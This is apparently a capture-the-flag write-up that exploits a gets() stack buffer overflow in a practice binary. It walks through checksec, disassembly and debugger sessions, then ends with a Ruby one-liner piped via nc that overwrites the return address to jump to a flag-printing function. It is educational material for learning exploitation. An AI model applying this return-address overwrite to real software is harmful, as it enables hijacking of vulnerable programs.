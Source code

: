 We are given a binary that is running on the server.

- We'll run the binary on our local machine once.

```bash
λ ./power_of_name
Enter your name: Dipesh
Hello Dipesh
```

- Running checksec on it, we'll see its addresses are fixed as theres NO PIE(Position independent executable) and there's no stack canary to protect from buffer overflows.

```bash
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

- Running strings on it, the only interesting output is

```
...
/bin/cat flag.txt
Enter your name:
Hello %s
...
```

It doesnt seem to be doing much. We'll try to look into its assembly to figure out more about what's going on.

- Disassembly of main

```
080492a0 <main>:
 80492a0:       f3 0f 1e fb             endbr32
 80492a4:       55                      push   ebp
 80492a5:       89 e5                   mov    ebp,esp
 80492a7:       83 e4 f0                and    esp,0xfffffff0
 80492aa:       e8 11 00 00 00          call   80492c0 <__x86.get_pc_thunk.ax>
 80492af:       05 51 2d 00 00          add    eax,0x2d51
 80492b4:       e8 6c ff ff ff          call   8049225 <greet> // calls greet function
 80492b9:       b8 00 00 00 00          mov    eax,0x0
 80492be:       c9                      leave
 80492bf:       c3                      ret
```

It just calls greet() function and returns.

- Disassembly of greet

```
08049225 <greet>:
 8049225:       f3 0f 1e fb             endbr32
 8049229:       55                      push   ebp
 804922a:       89 e5                   mov    ebp,esp
 804922c:       53                      push   ebx
 804922d:       83 ec 74                sub    esp,0x74
 8049230:       e8 fb fe ff ff          call   8049130 <__x86.get_pc_thunk.bx>
 8049235:       81 c3 cb 2d 00 00       add    ebx,0x2dcb
 804923b:       83 ec 0c                sub    esp,0xc
 804923e:       8d 83 1a e0 ff ff       lea    eax,[ebx-0x1fe6]
 8049244:       50                      push   eax
 8049245:       e8 46 fe ff ff          call   8049090 <printf@plt> // printf call
 804924a:       83 c4 10                add    esp,0x10
 804924d:       8b 83 fc ff ff ff       mov    eax,DWORD PTR [ebx-0x4]
 8049253:       8b 00                   mov    eax,DWORD PTR [eax]
 8049255:       83 ec 0c                sub    esp,0xc
 8049258:       50                      push   eax
 8049259:       e8 42 fe ff ff          call   80490a0 <fflush@plt>
 804925e:       83 c4 10                add    esp,0x10
 8049261:       83 ec 0c                sub    esp,0xc
 8049264:       8d 45 94                lea    eax,[ebp-0x6c]
 8049267:       50                      push   eax
 8049268:       e8 43 fe ff ff          call   80490b0 <gets@plt>
 804926d:       83 c4 10                add    esp,0x10
 8049270:       83 ec 08                sub    esp,0x8
 8049273:       8d 45 94                lea    eax,[ebp-0x6c]
 8049276:       50                      push   eax
 8049277:       8d 83 2c e0 ff ff       lea    eax,[ebx-0x1fd4]
 804927d:       50                      push   eax
 804927e:       e8 0d fe ff ff          call   8049090 <printf@plt>
 8049283:       83 c4 10                add    esp,0x10
 8049286:       8b 83 fc ff ff ff       mov    eax,DWORD PTR [ebx-0x4]
 804928c:       8b 00                   mov    eax,DWORD PTR [eax]
 804928e:       83 ec 0c                sub    esp,0xc
 8049291:       50                      push   eax
 8049292:       e8 09 fe ff ff          call   80490a0 <fflush@plt>
 8049297:       83 c4 10                add    esp,0x10
 804929a:       90                      nop
 804929b:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
 804929e:       c9                      leave
 804929f:       c3                      ret
```

- We can see a call to gets function, which is known to be vulnerable. Except that this function also doesnt seem to be doing much. Just prints "Enter your name", which is accepts via a `gets` function call and then prints that name.

- We can pretty much guess at this point that any source of exploitation in this function would be the gets function call. Let's try to figure out what we can do.

- We'll see first what all functions are there in the binary.

```
pwndbg> info functions
All defined functions:

Non-debugging symbols:
0x08049000  _init
0x08049090  printf@plt
0x080490a0  fflush@plt
0x080490b0  gets@plt
0x080490c0  system@plt
0x080490d0  __libc_start_main@plt
0x080490e0  _start
0x08049120  _dl_relocate_static_pie
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  show_flag
0x08049225  greet
0x080492a0  main
0x080492c0  __x86.get_pc_thunk.ax
0x080492d0  __libc_csu_init
0x08049340  __libc_csu_fini
0x08049345  __x86.get_pc_thunk.bp
0x0804934c  _fini
```

- We see a function called show_flag. Lets disasssemble it and see what it is.

```
pwndbg> disassemble show_flag
Dump of assembler code for function show_flag:
   0x080491f6 <+0>:     endbr32
   0x080491fa <+4>:     push   ebp
   0x080491fb <+5>:     mov    ebp,esp
   0x080491fd <+7>:     push   ebx
   0x080491fe <+8>:     sub    esp,0x4
   0x08049201 <+11>:    call   0x80492c0 <__x86.get_pc_thunk.ax>
   0x08049206 <+16>:    add    eax,0x2dfa
   0x0804920b <+21>:    sub    esp,0xc
   0x0804920e <+24>:    lea    edx,[eax-0x1ff8]
   0x08049214 <+30>:    push   edx
   0x08049215 <+31>:    mov    ebx,eax
   0x08049217 <+33>:    call   0x80490c0 <system@plt>
   0x0804921c <+38>:    add    esp,0x10
   0x0804921f <+41>:    nop
   0x08049220 <+42>:    mov    ebx,DWORD PTR [ebp-0x4]
   0x08049223 <+45>:    leave
   0x08049224 <+46>:    ret
End of assembler dump.
```

- To check what command system is running, while running with gdb, we'll manually overwrite the return address of main to return to 0x80491f6(address of show_flag)(using set command in gdb) and then continue execution. We will see that the `system` is called with "/bin/cat flag.txt".

```
   0x8049206 <show_flag+16>    add    eax, 0x2dfa
   0x804920b <show_flag+21>    sub    esp, 0xc
   0x804920e <show_flag+24>    lea    edx, [eax - 0x1ff8]
   0x8049214 <show_flag+30>    push   edx
   0x8049215 <show_flag+31>    mov    ebx, eax
 ► 0x8049217 <show_flag+33>    call   system@plt <system@plt>
        command: 0x804a008 ◂— '/bin/cat flag.txt'

   0x804921c <show_flag+38>    add    esp, 0x10
   0x804921f <show_flag+41>    nop
   0x8049220 <show_flag+42>    mov    ebx, dword ptr [ebp - 4]
   0x8049223 <show_flag+45>    leave
   0x8049224 <show_flag+46>    ret
```

- Now we know exactly what to do. We somehow have to execute the show_flag function in the server so that we can get our flag.
- Inorder to do that, we can abuse the gets call and somehow overwrite the return address of greet to point to show_flag.
- Lets understand the greet call's memory a bit better in order to do that.

```
08049225 <greet>:
 8049225:       f3 0f 1e fb             endbr32
 8049229:       55                      push   ebp
 804922a:       89 e5                   mov    ebp,esp
 804922c:       53                      push   ebx
 804922d:       83 ec 74                sub    esp,0x74
 8049230:       e8 fb fe ff ff          call   8049130 <__x86.get_pc_thunk.bx>
 8049235:       81 c3 cb 2d 00 00       add    ebx,0x2dcb
 804923b:       83 ec 0c                sub    esp,0xc
 804923e:       8d 83 1a e0 ff ff       lea    eax,[ebx-0x1fe6]
 8049244:       50                      push   eax
 8049245:       e8 46 fe ff ff          call   8049090 <printf@plt> // printf call
 804924a:       83 c4 10                add    esp,0x10
 804924d:       8b 83 fc ff ff ff       mov    eax,DWORD PTR [ebx-0x4]
 8049253:       8b 00                   mov    eax,DWORD PTR [eax]
 8049255:       83 ec 0c                sub    esp,0xc
 8049258:       50                      push   eax
 8049259:       e8 42 fe ff ff          call   80490a0 <fflush@plt>
 804925e:       83 c4 10                add    esp,0x10
 8049261:       83 ec 0c                sub    esp,0xc
 8049264:       8d 45 94                lea    eax,[ebp-0x6c]
 8049267:       50                      push   eax
 8049268:       e8 43 fe ff ff          call   80490b0 <gets@plt>
 804926d:       83 c4 10                add    esp,0x10
 8049270:       83 ec 08                sub    esp,0x8
 8049273:       8d 45 94                lea    eax,[ebp-0x6c]
 8049276:       50                      push   eax
 8049277:       8d 83 2c e0 ff ff       lea    eax,[ebx-0x1fd4]
 804927d:       50                      push   eax
 804927e:       e8 0d fe ff ff          call   8049090 <printf@plt>
 8049283:       83 c4 10                add    esp,0x10
 8049286:       8b 83 fc ff ff ff       mov    eax,DWORD PTR [ebx-0x4]
 804928c:       8b 00                   mov    eax,DWORD PTR [eax]
 804928e:       83 ec 0c                sub    esp,0xc
 8049291:       50                      push   eax
 8049292:       e8 09 fe ff ff          call   80490a0 <fflush@plt>
 8049297:       83 c4 10                add    esp,0x10
 804929a:       90                      nop
 804929b:       8b 5d fc                mov    ebx,DWORD PTR [ebp-0x4]
 804929e:       c9                      leave
 804929f:       c3                      ret

```

`8049264: 8d 45 94 lea eax,[ebp-0x6c]`, this is loading ebp-108 as parameter for the gets call, so this is the buffer which will be filled with our input. And as expected if we give anything with more than 108 characters as input it gives seg fault.

```
λ ruby -e 'puts "A"*109' | ./power_of_name
Enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
[1]    30423 done                              ruby -e 'puts "A"*109' |
       30424 segmentation fault (core dumped)  ./power_of_name
```

- After some trial and error, when we run this, it will give us the flag

```

λ ruby -e 'puts "A"*112+"\xf6\x91\x04\x08"' | nc ctf.captainirs.dev 3001
Enter your name: Hello AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
dctf{1m_64d_4t_m4k1n9_f1495}
```

